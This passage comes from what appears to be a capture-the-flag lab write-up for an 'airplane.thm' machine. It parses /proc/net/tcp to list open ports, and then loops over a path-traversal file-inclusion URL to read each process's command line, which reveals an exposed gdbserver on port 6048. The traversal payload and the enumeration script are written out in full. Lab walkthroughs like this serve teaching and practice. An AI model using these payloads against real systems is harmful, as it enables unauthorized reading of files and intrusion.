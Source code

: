```python
lines = raw_data.strip().split('\n')
print("Local Address      -> Remote Address     [State]")
print("-------------------------------------------------")
for line in lines:
    parts = line.split()
    if len(parts) < 4: continue

    local_ip_hex, local_port_hex = parts[1].split(':')
    remote_ip_hex, remote_port_hex = parts[2].split(':')
    state = tcp_states.get(parts[3], "UNKNOWN")

    print(f"{hex_to_ip(local_ip_hex):<15}:{hex_to_port(local_port_hex):<5} -> {hex_to_ip(remote_ip_hex):<15}:{hex_to_port(remote_port_hex):<5} [{state}]")
```

Running this script gives us:

```
127.0.0.1      :53    -> 0.0.0.0        :0     [LISTEN]
0.0.0.0        :22    -> 0.0.0.0        :0     [LISTEN]
127.0.0.1      :631   -> 0.0.0.0        :0     [LISTEN]
0.0.0.0        :8000  -> 0.0.0.0        :0     [LISTEN]
0.0.0.0        :6048  -> 0.0.0.0        :0     [LISTEN]
10.10.77.146   :8000  -> 10.21.206.128  :34786 [ESTABLISHED]
```

This confirms what `nmap` told us: port **6048** is listening. Since we can't run commands like `ps` or `netstat`, we have to get creative. Let's write a simple bash script to loop through process IDs in `/proc` and print their command lines. This is like a poor man's `ps aux`.

```bash
#!/usr/bin/env bash

for i in {1..800}; do
  # Use curl to fetch the cmdline file for each process ID
  out=$(curl -s "http://airplane.thm:8000/?page=../../../../../proc/$i/cmdline" | sed 's/\x00/ /g' | grep -v 'Page not found')
  if [ -n "$out" ]; then
    echo "$i : $out"
  fi
done
```

Let's run the script and see what we find...

```bash
❯ bash get-process.sh
# ... (lots of normal system processes)
532 : /usr/bin/gdbserver 0.0.0.0:6048 airplane
534 : /usr/bin/python3 app.py
# ... (more processes)
```

Jackpot! Process ID 532 is running `gdbserver` and it's listening on port `6048` for anyone to connect. This is our way in! `gdbserver` allows for remote debugging. If we can connect to it, we can control the execution of the `airplane` program and, more importantly, make it run our own code.
